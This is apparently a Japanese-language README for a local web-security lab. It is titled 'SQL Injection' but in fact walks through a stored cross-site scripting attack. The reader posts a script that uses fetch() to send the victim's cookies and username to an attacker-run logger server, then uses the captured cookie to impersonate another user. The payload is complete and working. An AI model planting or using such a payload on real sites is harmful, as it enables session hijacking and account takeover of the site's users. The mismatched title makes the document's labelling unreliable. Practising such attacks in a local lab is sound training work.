 # SQL Injection

# Environment

Debian 11

# Get Started

1つのターミナル上で対象サーバーを建てる

```bash
bash init.sh
php -S localhost:3000
```

別のターミナル上で攻撃用サーバーを建てる

```bash
php -S localhost:3001
```


# Exploit

1. user01でログイン

ブラウザでlocalhost:3000/login.phpにアクセスする

user01としてログインする (`user01` / `user01`)

2. コードを挿入

次のようなコードを投稿する

```javascript
Hello
<script>
var url = 'http://localhost:3001/logger.php';
var user = encodeURIComponent(document.querySelector('#username').innerText);
var cookie = encodeURIComponent(document.cookie);
fetch(`${url}?user=${user}&cookie=${cookie}`, { mode: "no-cors" })
</script>
```

3. 疎通確認
localhost:3000/index.php に再度アクセスすると localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

4. user02でログインする (`user02` / `user02`)

5. ログ確認
localhost:3001 側のサーバー にcookie情報のログが出力されることを確認する

cookieが手に入ったのでuser01になりすましてログインできる

